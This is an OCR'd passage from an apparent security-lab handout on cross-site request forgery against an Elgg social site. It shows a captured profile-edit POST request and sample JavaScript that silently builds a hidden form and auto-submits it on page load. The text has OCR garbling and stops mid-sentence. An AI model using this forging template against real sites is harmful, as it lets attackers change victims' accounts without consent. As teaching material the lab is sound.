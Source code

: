 ```
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813 P
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser
&accesslevel%5Bbriefdescription%5D=2&location=US
...... P
```
After understanding the structure of the request, you need to be able to generate the request from your
attacking web page using JavaScript code. To help you write such a JavaScript program, we provide a
sample code in the following code fence. You can use this sample code to construct your malicious web site
for the CSRF attacks. This is only a sample code, and you need to modify it to make it work for your attack.
```
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>


<script type="text/javascript">

function forge_post()
{
    var fields;


    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won’t be able to see them.
    fields += "<input type=’hidden’ name=’name’ value=’****’>";
    fields += "<input type=’hidden’ name=’briefdescription’ value=’****’>";
    fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’
                                    value=’2’>"; ¿
    fields += "<input type=’hidden’ name=’guid’ value=’****’>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```
In Line ¿, the value 2 sets the access level of a field to public. This is needed, otherwise, the access level
will be set by default to private, so others cannot see this field. It should be noted that when copy-and-pasting